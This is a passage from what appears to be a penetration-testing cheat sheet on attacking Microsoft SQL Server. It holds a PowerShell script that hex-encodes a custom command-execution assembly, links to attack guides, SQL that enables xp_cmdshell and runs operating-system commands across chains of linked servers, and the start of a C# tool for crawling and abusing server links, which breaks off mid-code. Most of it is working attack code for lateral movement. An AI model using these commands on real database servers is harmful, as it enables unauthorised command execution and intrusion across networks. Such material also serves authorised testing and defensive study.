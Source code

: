 Convert custom assembly DLL to a hex string:

{% code title="Convert-AssemblyToHex.ps1" %}
```powershell
$assemblyFile = "SqlCmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File SqlCmdExec.txt
```
{% endcode %}




## Crawl Links

* [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf](https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf)
* [https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
* [https://xakep.ru/2020/01/24/lateral-movement/#toc01.](https://xakep.ru/2020/01/24/lateral-movement/#toc01.)

Exec code from SQLSRV00 when SQLSRV01 and SQLSRV02 are linked like this SQLSRV00 -> SQLSRV01 -> SQLSRV02:

```
EXEC ('select SYSTEM_USER;') AT SQLSRV01;
EXEC ('EXEC (''select SYSTEM_USER;'') AT SQLSRV02;') AT SQLSRV01;

EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') at SQLSRV01;
EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') at SQLSRV02;') at SQLSRV01;

EXEC ('EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';') at SQLSRV01;
EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') at SQLSRV02;') at SQLSRV01;
```

Abusing server links from C# code:

{% code title="SqlCrawlLinks.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace SqlCrawlLinks
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
                result = result.Remove(result.Length - 1);
            }
            catch { }
```